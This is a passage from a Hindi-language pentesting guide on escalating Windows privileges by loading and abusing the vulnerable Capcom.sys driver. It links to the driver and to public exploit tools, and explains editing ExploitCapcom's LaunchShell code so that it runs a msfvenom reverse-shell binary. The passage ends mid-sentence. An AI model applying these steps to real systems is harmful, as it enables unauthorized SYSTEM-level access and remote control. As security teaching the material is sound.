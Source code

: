 ![](../../../.gitbook/assets/a11.png)

डाउनलोड: [Capcom.sys - 10KB](https://firebasestorage.googleapis.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LTyWsUdKa48PyMRyZ4I%2F-LTyZ9IkoofuWRxlNpUG%2FCapcom.sys?alt=media\&token=e4417fb3-f2fd-42ef-9000-d410bc6ceb54)

**अब समय है कि हम लोड किए गए ड्राइवर का दुरुपयोग करें ताकि विचित्र कोड को निष्पादित किया जा सके।**

आप [https://github.com/tandasat/ExploitCapcom](https://github.com/tandasat/ExploitCapcom) और [https://github.com/zerosum0x0/puppetstrings](https://github.com/zerosum0x0/puppetstrings) से उत्पादों को डाउनलोड कर सकते हैं और इसे सिस्टम पर निष्पादित करके हमारी वर्चस्व को `NT Authority\System` तक उन्नत कर सकते हैं:

![](../../../.gitbook/assets/a12.png)

### कोई ग्राफिकल यूजर इंटरफेस नहीं

यदि हमें लक्ष्य के लिए **जीयूआई एक्सेस नहीं** है, तो हमें **`ExploitCapcom.cpp`** को कंपाइल करने से पहले कोड को संशोधित करना होगा। यहाँ हम पंक्ति 292 को संपादित कर सकते हैं और `C:\\Windows\\system32\\cmd.exe"` की जगह, उदाहरण के लिए, `msfvenom` के साथ बनाए गए रिवर्स शैल बाइनरी के साथ बदल सकते हैं, जैसे: `c:\ProgramData\revshell.exe`।

कोड: c
```c
// Launches a command shell process
static bool LaunchShell()
{
TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
PROCESS_INFORMATION ProcessInfo;
STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
&ProcessInfo))
{
return false;
}

CloseHandle(ProcessInfo.hThread);
CloseHandle(ProcessInfo.hProcess);
return true;
}
```
`इस उदाहरण में 'CommandLine' स्ट्रिंग को बदल दिया जाएगा: